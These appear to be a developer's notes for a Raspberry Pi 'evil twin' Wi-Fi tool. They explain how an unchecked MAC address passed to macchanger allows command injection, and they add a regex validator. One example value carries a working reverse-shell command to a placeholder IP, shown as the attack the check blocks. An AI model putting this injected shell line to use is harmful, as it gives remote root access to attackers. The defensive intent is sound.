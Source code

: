 Let's go it works!

## Mac addr
To please the appsec gods I'm going to regex the shit out of this as it is being pass as straight bash code. Why? so this doesn't happen

```
macchanger --mac=$mac_addr wlan0
```

Where mac_addr is:
```
aa:bb:cc:dd:ee:ff wlan0; sh -i >& /dev/tcp/10.10.10.69/9001 0>&1
```

which will just send off a root shell to someone.

Even tools designed to break things need to be secure. :)

### Regex lesson
Wow look perfect regex.
```python
import re

# Define the regular expression pattern for a MAC address
MAC_PATTERN = r'^([0-9A-Fa-f]{2}[:-]){5}([0-9A-Fa-f]{2})$'

# Check if a string matches the MAC address pattern
def is_valid_mac(mac_string):
    if re.match(MAC_PATTERN, mac_string):
        return True
    else:
        return False
```

Straight from chatgpt.

```
[0-9A-Fa-f]{2} # checks for hex pair
[:-] # then a semi colon
{5} # five times.
[0-9A-Fa-f]{2} # final hex pair

the ^ means starts with and $ means ends with.
```

### Change the mac addr
With the above check it can be done exactly the same as the ssid.
```python
def change_mac_addr(name: str):
	if is_valid_mac(name):
		update_file("./PiEvilTwinStart.sh",f"macchanger --mac={name} wlan0\n")
	else:
		return
```
